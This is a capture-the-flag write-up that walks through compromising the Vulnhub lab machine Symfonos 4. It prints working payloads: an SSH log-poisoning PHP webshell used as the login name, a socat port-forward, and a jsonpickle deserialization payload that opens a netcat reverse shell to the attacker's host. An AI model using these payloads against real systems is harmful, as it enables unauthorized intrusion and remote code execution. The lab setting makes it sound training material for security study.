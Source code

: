 ```yaml
---
"title": "Vulnhub - Symfonos 4"
"date": 2020-03-12
"tags": ["medium", "port_forward", "log-poisoning", "mysql"]
"keywords": ["medium", "port_forward", "log-poisoning", "mysql"]
"author": "Ghostbyt3"
"description": "Since there is no other interesting Ports Open, I started Gobuster on the webpage."
"featured_image": "/img/symfonos4/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



Today, We are going to pwn Symfonos 4 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach people the importance of trying harder.
```
Download Link : [https://www.vulnhub.com/entry/symfonos-4,347/](https://www.vulnhub.com/entry/symfonos-4,347/)

Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8C:D3:8B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

## HTTP:

Normal webpage with an image like always.
![Untitled](/img/symfonos4/1.png)

Since there is no other interesting Ports Open, I started Gobuster on the webpage.

Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.1.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html
[+] Timeout:        10s
===============================================================
2020/03/12 19:39:13 Starting gobuster
===============================================================
/index.html (Status: 200)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/sea.php (Status: 302)
/atlantis.php (Status: 200)
/server-status (Status: 403)
/gods (Status: 301)
===============================================================
2020/03/12 19:41:23 Finished
===============================================================
```

``/gods``

![Untitled](/img/symfonos4/2.png)

Downloaded all log files to my machine.[br/](br/)
![Untitled](/img/symfonos4/3.png)

``hades.log``

```
Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.
```

``poseidon.log``

```
Poseidon was the god of the sea, earthquakes and horses. Although he was officially one of the supreme gods of Mount Olympus, he spent most of his time in his watery domain. Poseidon was brother to Zeus and Hades. These three gods divided up creation.
```


``zeus.log``

```
Zeus is the god of the sky, lightning and thunder in Ancient Greek religion and myth, and king of the gods on Mount Olympus. Zeus is the sixth child of Kronos and Rhea, king and queen of the Titans.
```

``/atlantis.php``

![Untitled](/img/symfonos4/4.png)

``/sea.php``

Whenever I open ``/sea.php`` it redirects to ``/atlantis.php``. Lets capture the request in burp.

``302 Found`` which is redirection, We can stop a redirection using burp.
![Untitled](/img/symfonos4/5.png)

All we need to do is change ``302 Found`` to ``200 Ok`` For that open ``Proxy -> Options -> Match and Replace``.

![Untitled](/img/symfonos4/6.png)

Now If I visit ``/sea.php`` it displays a new page.
![Untitled](/img/symfonos4/7.png)

So If I select a GOD the url changes to ``/sea.php?file=hades`` maybe Local File Inclusion.
![Untitled](/img/symfonos4/8.png)

But I can't view ``/etc/passwd`` so I searched for any log files and I got ``/var/log/auth`` We dont need to represent ``.log`` because we already saw those ``poseidon.log, zeus.log and hades.log`` in ``/gods`` with extension but in ``/sea.php`` it shows the same file even without the extensions.

![Untitled](/img/symfonos4/9.png)

When seeing those Log files it shows ``OpenSSH`` so we can do ``SSH Log Poisoning``

Reference : https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

```ssh '[?php system($_GET['c']); ?](?php system($_GET['c']); ?)'@192.168.1.136```

![Untitled](/img/symfonos4/10.png)

Now its injected, Time to get reverse shell.

![Untitled](/img/symfonos4/11.png)

When checking ``/var/www/html/atlantis.php`` found ``mysql`` credentials.

![Untitled](/img/symfonos4/12.png)

``root : yVzyRGw3cG2Uyt2r``

I logged with those and got admin hash.[br/](br/)
![Untitled](/img/symfonos4/13.png)

MySql Commands: http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm

I tried cracking the hash but I can't. So I skipped that and started looking for other things.

I started looking around in the directories and found ``/opt/code`` I found a python code. I came to know its ``jsonpickle`` so it may be running on the background.
![Untitled](/img/symfonos4/55.png)

Uploaded My Enumeration Script and Found this 

![Untitled](/img/symfonos4/14.png)

- Port 3306 - MySQL
- Port 8080 - Webpage (Maybe)

We can’t see port ``8080`` directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

I used ``socat`` method for port forwarding. We can also use ``SSH`` interactive shell for port forwarding too. (https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/)

```
socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080
```

![Untitled](/img/symfonos4/15.png)

Now I can visit ``http://192.168.1.136:8081``, It displays this page 

![Untitled](/img/symfonos4/16.png)

When I click the Main page it directs to 

![Untitled](/img/symfonos4/17.png)

But ``192.168.1.136:8081/whoami`` is suspecious, So I intercept the request in Burp 

![Untitled](/img/symfonos4/18.png)

``username`` looks like base64encoded so I decoded that 

![Untitled](/img/symfonos4/19.png)

So this is the thing we saw in ``/opt/code``

Later I found this [article](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

So I did some changes in the string and encoded this to base64.

```
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["/usr/bin/nc -e /bin/bash 192.168.1.103 1234"]}, null, null, null]}
```

Gave that base64 encoded to ``username`` and started my Listener and got shell.

![Untitled](/img/symfonos4/20.png)

I'm Root!!

!![Untitled](/img/symfonos4/21.png)